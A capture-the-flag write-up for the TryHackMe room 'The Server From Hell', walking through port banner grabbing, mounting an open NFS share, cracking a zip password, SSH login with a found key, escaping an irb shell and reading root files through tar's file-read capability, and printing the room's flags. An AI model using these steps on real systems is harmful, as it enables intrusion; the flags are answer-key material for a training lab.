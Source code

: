 ```yaml
---
title: TryHackMe - The Server From Hell
description: My writeup on The Server From Hell box.
categories:
 - tryhackme
tags: tryhackme nc banner bash nfs ssh nmap nse fcrackzip ruby tar capabilities
---
```


![](https://i.imgur.com/vpvPeOz.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **The Server From Hell**  |
| Difficulty :  | **Medium**             |
| Play :    | [The Server From Hell](https://tryhackme.com/room/theserverfromhell){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello, this box is a bit trolling & if you don't know basic coding you will waste lot of time. Let's start!

## Enumeration/Reconnaissance

The challenge says to start at port 1337.

```
Start at port 1337 and enumerate your way.
Good luck.
```

So let's do banner grabbing on port 1337. Banner grabbing is to take information about a network service, it’s software name and version etc.

```
$ nc -v $ip 1337
10.10.142.93 [10.10.142.93] 1337 (?) open
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports
```

To find the trollface, we will use bash script magic.

```bash
for ports in {1..100}; do nc $ip $ports; echo; done
```

![](https://i.imgur.com/ENEzrml.png)

Let's check port `12345`.

```
$ nc -v $ip 12345
10.10.142.93 [10.10.142.93] 12345 (?) open
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

## Shell as hades

Let's enumerate NFS, let's identify the shared directory first.

```
$ showmount -e $ip
Export list for 10.10.142.93:
/home/nfs *
```

Let's mount now & see what the directory contains.

```
$ mount -t nfs $ip:/home/nfs exp
$ cd exp
$ ls -la
total 16
drwxr-xr-x 2 nobody nogroup 4096 Sep 16 01:11 .
drwxr-xr-x 6 root   root    4096 Jan 22 22:20 ..
-rw-r--r-- 1 root   root    4534 Sep 16 01:11 backup.zip
```

Let's copy it to our directory. When we try to open it asks for a password:

```
$ cp backup.zip ..
$ cd ..
$ unzip backup.zip
Archive:  backup.zip
  creating: home/hades/.ssh/
[backup.zip] home/hades/.ssh/id_rsa password:
```

Let's crack it using `fcrackzip`.

```
$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip

PASSWORD FOUND!!!!: pw == zxcvbnm
$ unzip -q -P zxcvbnm backup.zip
```

We've a username now `hades` & a SSH private key. But on port 22 isnt running SSH:

```
$ nc -v $ip 22
10.10.142.93 [10.10.142.93] 22 (ssh) open
550 12345 0f8008c008fff8000000000000780000007f800087708000800ff00
```

`hint.txt` tells us that SSH port is between `2500-4500`, let's fire up a nmap scan with banner NSE script.

```
$ nmap --script banner -p2500-4500 $ip

...data...

3333/tcp open  dec-notes                                                                
|_banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
```

Let's login now.

```
$ ssh -i id_rsa hades@$ip -p 3333
irb(main):001:0>
```

We're into `irb` (Interactive Ruby Shell), we can use `system` function to execute bash.

```
irb(main):001:0> system "bash"
hades@hell:~$ whoami;id
hades
uid=1002(hades) gid=1002(hades) groups=1002(hades)
```

## Reading root flag

While enumerating, i noticed tar has the `cap_dac_read_search` capability. We can bypass file read permission and read whatever file we want.

```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

Let's read `root.txt`

```
hades@hell:/tmp$ tar -cvf root.tar /root/root.txt
tar: Removing leading `/' from member names
/root/root.txt
hades@hell:/tmp$ tar -xf root.tar
hades@hell:/tmp$ cat root/root.txt
thm{w0w_n1c3_3sc4l4t10n}
```

The rest of the flags:

```
hades@hell:/tmp$ cat /home/hades/user.txt ; cat /home/hades/.ssh/flag.txt
thm{sh3ll_3c4p3_15_v3ry_1337}
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
```

You can even get a root shell, try it yourself ;)

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
